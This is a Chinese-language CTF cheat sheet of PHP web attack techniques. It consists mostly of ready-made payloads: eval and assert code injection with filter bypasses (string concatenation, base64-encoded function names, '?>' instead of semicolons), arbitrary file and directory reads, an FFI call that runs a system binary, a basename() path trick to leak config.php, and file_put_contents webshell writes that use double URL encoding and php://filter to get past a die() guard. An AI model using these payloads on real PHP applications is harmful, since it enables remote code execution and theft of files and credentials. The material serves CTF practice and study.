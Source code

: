 在线php运行：<https://www.jyshare.com/compile/1/>



## **php常见特殊函数和绕过**
**文件包含函数 绕过一些禁用函数**
如果是eval($_POST('c'))，直接蚁剑连，用插件绕过
```
c=highlight_file("config.php");        //文件内容包含高亮。
c=show_source('flag.php');
c=highlight_file(next(array_reverse(scandir(pos(localeconv())))));
c=print_r(scandir(dirname('__FILE__')));
// ( [0] => 。 [1] => .. [2] => flag.php [3] => index.php ) 
c=var_dump(file('flag.php'));
c=readfile('flag.php');
c=print_r(file('flag.php'));
c=show_source(file(''flag.php));
c=echo file_get_contents('flag.php');
c=include('/flag.txt');
c=require('/flag.txt');
c=require_once('/flag.txt');

c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');foreach($dbh->query('select load_file("/flag36.txt")') as $row){echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e->getMessage();exit(0);}exit(0);

```
查目录
```
c=var_dump(scandir('/'));

c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}//glob的作用是规定后面的匹配格式，查找匹配的文件路径模式

c=$a=scandir("/");foreach($a as $key=>$value){echo $key."=>".$value;}

c=var_export(scandir('/'));exit(); 
//停掉后面的限制函数如ob_end_clean()会清除缓冲不会输出内容。会输出很多???????????
c=include('/flag.txt');die();
```
```
print_r(file_get_contents(/flagg')); //打印获取文件的内容
var_dump(scandir(/);  //查看根目录
var_dump(scandir(chr(47))); //查看根目录

var_dump(file_get_contents(/flagg')); //打印获取文件的内容。file_get_content()也可以读取php://filter伪协议。
var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)));  //绕过打印flag
```

根目录下有/readflag程序
```
c=$ffi = FFI::cdef("int system(char *command);", "libc.so.6");$a='/readflag > 1.txt';$ffi->system($a);exit();
然后访问ip/1.txt
```


^
**代码执行函数**
eval('system('cat /flag'); ');         //会将字符串当作PHP代码执行，注意分号。
eval('system('cat /flag')?> ');    // 分号可以用?>替换。 且后面代码也会正常执行。

```
对于eval($_GET('c'));题

/?c=eval($_GET[a]);&a=system('cat flag.php');  //绕过eval有限制。
/?c=eval($_GET[a])?>&a=system('cat flag.php');  //绕过eval有限制。过滤了;
eval('eval($_GET[a])?>')  

/?c=include"$_GET[a]"?>&a=php://filter/read=convert.base64-encode/resource=flag.php //过滤了(
/?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php //过滤了( 双引号"
```
eval("$x='sys';  $y='tem';  $z=$x.$y;  $z('cat config.php');" );         //绕过过滤。

eval('base64_decode("c3lzdGVt");$b=base64_decode("Y2F0IGNvbmZpZy5waHA=");$a($b);');        //base64编码绕过。

assert()可以将整个字符串参数当作php参数执行
而类似的eval()函数是执行合法的php代码，eval()里的引号必须是双引号，因为单引号不能解析字符串里的变量$str，且必须以分号结尾，函数调用除外。
```
<?php
echo eval(echo 1);
?>
不行，需改成下面：
<?php
echo eval("echo 1;");
?>
```

^
^

命令执行找flag文件：find / -name flag*
递归搜当前目录下内容：grep -r "flag{" .

php内的"\"在做代码执行的时候，会识别特殊字符串，绕过黑名单。
如\system

^
## **basename()场景漏洞**
源代码：
```
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}
if (isset($_GET['source'])) {
    highlight_file(basename($_SERVER['PHP_SELF']));
}
```
我们要包含高亮config.php
`$_SERVER['PHP_SELF']`会获取我们当前的访问路径，并且PHP在根据URI解析到对应文件后会忽略掉URL中多余的部分，即若访问存在的index.php页面，如下两种UR均会访问到。
```
/index.php
/index.php/dosent_exist.php
```
`basename`可以理解为对传入的参数路径截取最后一段作为返回值，但是该函数发现最后一段为不可见字符时会退取上一层的目录，basename只能转换ASCII码内的字符。即：
```
$var1="/config.php/test"
basename($var1)	=> test
$var2="/config.php/%ff"
basename($var2)	=>	config.php
```
`$_SERVER['PHP_SELF']`提交index.php/config.php时，经过basename过滤后只剩下config.php，需要绕过的只有正则，basename只能转换ASCII码内的字符，通过超过ASCII码范围的字符进行绕过。

接下来就显然了，通过构造URI让其包含`config.php`这个文件名再让`basename`函数截取出来，之后通过请求参数`source`就能显示`config.php`的源码，也就能见到`flag`了。
```
/index.php/config.php/%ff?source
```


^
## **file_put_contents()场景写文件漏洞**
对于
```
if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        die('hacker!!!');
}
file_put_contents("index.php", $input)
```
可以传入绕过
```
<?=`ls\t/*`?>
<?=`cat\t/flllllll1112222222lag`?>
```

^
如果是第一个参数可控，使用伪协议。
```
$file = $_GET['file'];
$content = $_POST['content'];

$file = str_replace("php", "???", $file);
$file = str_replace("data", "???", $file);
$file = str_replace(":", "???", $file);
$file = str_replace(".", "???", $file);

file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
```
绕过替换，$file使用双重url编码。
绕过die()函数，$file使用base64伪协议。将die()过滤成die无效字符。
```
?file=php://filter/write=convert.base64-decode/resource=jiuzhen.php
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%36%61%25%36%39%25%37%35%25%37%61%25%36%38%25%36%35%25%36%65%25%32%65%25%37%30%25%36%38%25%37%30
```
POST传递：
```
content=<?php system(ls);?>   //base64编码—下
content=PD9waHAgc3lzdGVtKCdscycp0z8+
content=aaPD9waHAgc3lzdGVtKCdscycp0z8+ //加两个字符
//<?php die('大佬别秀了');?>被base64过滤后变成phpdie，加两个字符变成4的倍数。
```
访问jiuzhen.php即可。
